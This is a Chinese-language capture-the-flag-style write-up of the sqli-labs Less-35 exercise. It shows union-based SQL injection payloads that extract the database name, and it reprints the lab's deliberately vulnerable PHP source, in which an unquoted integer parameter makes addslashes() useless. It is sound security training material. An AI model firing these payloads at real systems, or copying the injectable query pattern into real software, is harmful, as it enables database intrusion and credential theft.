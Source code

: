 # Less-35 **GET why care for addslashes()**
TAG：宽字节注入  
## 漏洞利用  
![less35_1](images\less35_1.png)  
根据页面提示参数为整数型，尝试测试回显点的payload:```0 union select 1,2,3#```  
![less35_2](images\less35_2.png)  
成功获取回显点  
  
构造获取数据库名的payload:```0 union select 1,database(),3#```  
![less35_3](images\less35_3.png)  
由此看了似乎```addslashes()```并没有正常起作用  
  
## 源码分析
### less35源代码  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-35 **why care for addslashes()**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="5" color="#00FF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sqli-connect.php");

function check_addslashes($string)
{
    $string = addslashes($string);
    return $string;
}

// take the variables 
if(isset($_GET['id']))
{
$id=check_addslashes($_GET['id']);
//echo "The filtered request is :" .$id . "<br>";

//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

mysqli_query($con1, "SET NAMES gbk");
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysqli_query($con1, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);

	if($row)
	{
  	echo '<font color= "#00FF00">';	
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysqli_error($con1));
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
        
        

?>
</font> </div></br></br></br><center>
<img src="../images/Less-35.jpg" />
</br>
</br>
</br>
</br>
</br>
<font size='4' color= "#33FFFF">
<?php
echo "Hint: The Query String you input is escaped as : ".$id;
?>
</center>
</font> 
</body>
</html>
```
  
### 漏洞点分析  
```
...
if(isset($_GET['id']))
{
$id=check_addslashes($_GET['id']);
//echo "The filtered request is :" .$id . "<br>";

//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

mysqli_query($con1, "SET NAMES gbk");
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysqli_query($con1, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);
...
```
此less的参数类型为整形（数字型查询），函数```addslashes()```没有起到作用  